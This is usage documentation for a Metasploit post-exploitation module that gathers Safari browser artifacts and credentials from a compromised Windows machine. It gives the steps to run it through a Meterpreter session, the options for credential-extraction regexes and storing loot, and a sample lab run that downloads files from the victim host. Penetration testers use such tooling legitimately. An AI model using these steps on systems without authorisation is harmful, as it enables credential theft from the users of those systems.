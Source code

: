 ## Module Description

This post-exploitation module gathers artifacts found on safari related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/safari
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/safari) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Safari's parent folder found
[*] Safari's parent folder found
[*] Safari's Webpageicons.db file found
[*] Downloading C:\Users\IEUser\AppData\Local\Apple Computer\Safari\WebpageIcons.db
[*] Safari Webpageicons.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513132035_default_192.168.56.106_safariWebpageIco_644838.db

[+] File with credentials saved:  /root/.msf4/loot/20210513132035_default_192.168.56.106_EXTRACTIONSWebpa_544464.db
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
 